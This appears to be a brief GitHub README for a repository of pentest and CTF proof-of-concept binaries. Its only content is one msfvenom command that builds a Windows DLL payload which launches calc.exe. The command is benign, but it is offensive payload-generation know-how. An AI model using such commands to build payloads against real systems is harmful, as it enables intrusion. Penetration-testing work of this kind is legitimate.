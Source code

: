 # custom-poc-binaries
Just some random poc scripts for pentest/ctf/poc

```
msfvenom -f dll -p windows/exec CMD='C:\\Windows\\system32\\calc.exe' -o pop-cacl.dll
```
